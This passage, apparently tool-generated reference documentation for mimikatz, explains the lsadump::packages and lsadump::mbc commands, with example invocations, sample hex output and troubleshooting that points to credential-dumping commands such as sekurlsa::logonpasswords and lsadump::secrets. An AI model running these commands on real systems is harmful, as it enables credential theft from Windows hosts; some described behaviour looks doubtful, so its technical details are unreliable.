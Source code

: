   ```
    M ; RESTRICTED_TOKENS ; APPCONTAINER_CHECKS ; ? ; )
    MaxToken    : 48000
    RPCID       : 0x0010 (16)
    Version     : 1
  ```
* Request an initial token for a particular SPN:
  ```
  mimikatz # lsadump::packages cifs/dc01.corp.local
  ```
  Example output snippet:
  ```
  [Kerberos] Initial token (len=512)
  0000  60 82 01 20 06 09 2a 86  48 82 f7 12 01 02 02 01  |`.. ..*.H.......|
  ```

### Potential errors and troubleshooting
* **`AcquireCredentialsHandle` fails** – The current logon session lacks credentials for the package.
  Use `sekurlsa::logonpasswords` to locate a usable token or run as the target user.
* **`InitializeSecurityContext` returns `SEC_E_TARGET_UNKNOWN`** – The SPN is invalid. Verify the
  service principal name or use the fully qualified domain name.
* **Output is empty** – Ensure mimikatz has not been restricted by Credential Guard; packages are
  hidden if the machine enforces virtualization-based security.

## `lsadump::mbc`
Displays the machine-bound certificate (MBC) material stored in the registry.

| Flag | Purpose | Why use it |
| --- | --- | --- |
| `/system:<path>` | Load an offline SYSTEM hive. | Necessary when dumping MBC data from a copied hive. |

Without parameters the command reads the local machine’s registry to locate the
`MachineBoundCertificate` blob and prints it via the DPAPI helper routines.【F:mimikatz/modules/kuhl_m_lsadump.c†L2395-L2444】

### Example usage
* Display the live machine-bound certificate:
  ```
  mimikatz # lsadump::mbc
  ```
  Example output:
  ```
  MachineBoundCertificate :
  0000  30 82 03 7a 30 82 02 62  a0 03 02 01 02 02 10 43  |0..z0..b.......C|
  ```
* Parse an offline SYSTEM hive:
  ```
  mimikatz # lsadump::mbc /system:E:\Offline\SYSTEM
  ```

### Potential errors and troubleshooting
* **`ERROR kuhl_m_lsadump_mbc`** – Often caused by missing DPAPI master keys. Make sure `lsadump::secrets`
  ran successfully first so the DPAPI system keys are cached.
* **`CreateFile` errors** – The offline SYSTEM hive path is invalid. Verify the path and that mimikatz
  has read permissions.
* **Empty blob** – Some systems do not enable MBC. Confirm the feature is in use; otherwise no data
  will be printed.
